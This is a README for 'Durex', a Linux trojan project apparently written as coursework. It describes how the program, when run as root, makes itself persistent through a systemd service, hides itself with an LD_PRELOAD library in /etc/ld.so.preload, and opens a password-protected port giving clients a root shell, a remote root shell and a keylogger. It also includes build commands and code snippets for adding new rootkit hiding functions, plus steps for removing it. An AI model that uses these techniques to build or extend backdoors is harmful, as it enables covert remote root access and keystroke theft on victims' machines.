 # DUREX
Simple Trojan

## INSTALLATION
### As Normal User

```sh
$> make && ./Durex
JohnDoe
$>
```
At execution, Durex will print the user actually connected.

### As Root
If the user is root, Durex will:

+ Create a copy of himself in /bin
+ Create a durex.service file in /lib/systemd/ to add himself as a service, launching himslef at bootime as a deamon
+ Create a durex.so library in /usr/local/lib/ to hide himself and his functions from the system
+ Add this library in /etc/ld.so.preload
+ Create a Durex.log file in /var/log/

Only one instance of Durex is created.

+ Durex opens a server on port 4242, allowing 3 clients to connect to it
+ The server is locked by a password
+ The server offers to the clients:
	+ A shell as root
	+ A remote shell as root
	+ A keylogger

### Le binaire a été testé sur une Debian 9.3.0 64bits.

## MODIFICATION
### Password generation
+ Generate a new password with the 'pass' executable:
```sh
$> make pass
cc -o pass other/passwd.c srcs/encrypt.c -I includes/
$> ./pass toto
toto (4): 191 248 92 67 189 94 197 184
$> ./pass kata
kata (4): 201 121 30 74 3 83 154 250
```
+ Use your best editor to modify **durex.h** :
```c
# define SERVER_PASS .. .. .. .. ..
```
+ Recompile

### New library function

* Create your file and compile it
```sh
$> gcc -Wall -fPIC -shared -o ./Durex.so [myfile.c] -ldl
```
* If it compiles well, create the **hex** binary
```sh
$> make hex
cc -o hex other/txttohex.c -I includes/
$> ./hex [fichier.c]
\x23\x64\x65...
```
* Add the hexadecimal generated above in **includes/main.h**
```c
# define DUREX_MY_FILE		"/tmp/myfile.c"
# define DUREX_MY_SRC		"\x23\x64\x65\x66..."
```
* Finally add those defines in **src/library.c**
```c
int				install_library()
{
	char	*const files[] = { "gcc", "-Wall", "-fPIC", "-shared", "-o", DUREX_PROCESSHIDER_LIB,
							 DUREX_FGETS_FILE, DUREX_LXSTAT_FILE, DUREX_NEWFSTATAT_FILE,
							 DUREX_PCAP_FILE, DUREX_READDIR_FILE, DUREX_RECVMSG_FILE,
							 DUREX_RM_FILE, DUREX_XSTAT_FILE, **DUREX_MY_FILE**,
							 "-ldl", NULL };
	char	*const src[] = { NULL, NULL, NULL, NULL, NULL, NULL,
							 DUREX_FGETS_SRC, DUREX_LXSTAT_SRC, DUREX_NEWFSTATAT_SRC,
							 DUREX_PCAP_SRC, DUREX_READDIR_SRC, DUREX_RECVMSG_SRC,
							 DUREX_RM_SRC, DUREX_XSTAT_SRC, **DUREX_MY_SRC** };
   ...
}
```
* Recompile the binary

### Infos
+ If you had previously executed the binary has root you must :
	- Stop the service durex
	- Disable the service durex
	- Remove /etc/ld.so.preload
	- Remove /bin/Durex
+ Optionnaly :
	- Remove /lib/systemd/system/durex.service
	- Remove /var/log/Durex.log
	- Remove /var/lock/Durex.lock

# AUTEUR
* gbourgeo
